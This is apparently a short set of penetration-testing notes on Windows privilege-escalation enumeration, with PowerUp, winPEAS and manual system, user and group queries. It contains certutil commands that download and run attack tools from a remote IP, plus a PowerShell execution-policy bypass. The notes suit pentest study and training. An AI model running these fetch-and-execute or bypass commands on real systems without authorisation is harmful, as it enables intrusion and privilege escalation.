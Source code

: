 ### Automated Tools

#### Powerup

```powershell
certutil.exe -urlcache -split -f http://192.168.10.10/PowerUp.ps1
powershell -ep bypass
PowerUp.ps1
```

- check all possible vulnerability except plaintext passwd

```powershell
Invoke-AllChecks 
```

#### Winpeas.exe (all including plaintext passwd)

-  Windpeas.exe If .net 4.5 (run otherwise)
```powershell
certutil.exe -urlcache -split -f http://192.168.10.10:8080/winPEASx64.exe
.\winPEASx64.exe
```

### Manual Enumeration

```
Systeminfo
```

- OR

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

- (updates and patches etc) 

```
Hostname | Whoami | wmic qfe 
```

 - drives

```
Wmic logicaldisk
```

- Variables de entorno 

```
 echo %USERNAME% || whoami then $env:username
```

```
Net user | net user noman
```

```
Net localgroup | net localgroup noman
```
